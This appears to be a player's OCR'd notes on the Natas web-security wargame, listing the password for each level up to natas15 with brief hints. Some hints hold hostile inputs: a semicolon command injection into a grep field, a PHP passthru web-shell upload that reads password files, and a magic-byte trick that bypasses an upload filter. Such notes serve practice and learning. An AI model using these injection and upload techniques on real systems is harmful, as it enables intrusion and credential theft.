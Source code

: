 1: natas1 / gtVrDuiDfck831PqWsLEZy5gyDz1clto
2: natas2 / ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
3: natas3 / sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
4: natas4 / Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
5: natas5 / iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq (we can head to burp suite and change our referer to be natas5)
6: natas6 / aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
7: natas7 / 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
8: natas8 / DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe (we can navigate to the directory in the hint by changing the include. I forget what this exploit is called, but its a PHP one where we can abuse the include function)
9: natas9 / W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
10: natas10 / nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu (; cat /etc/natas_webpass/natas10 because we can see they're using grep so the semicolon will execute whats after that)
11: natas11 / U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
12: natas12 / EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
13: natas13 / jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY (we can change the extension and then upload `<?php passthru('cat /etc/natas_webpass/natas13');` and get the password)
14: natas14 / Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 (we can open our script from before up in a hex editor and add these magic JPEG bytes FF D8 FF E0 to the front)
15: natas15 / AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
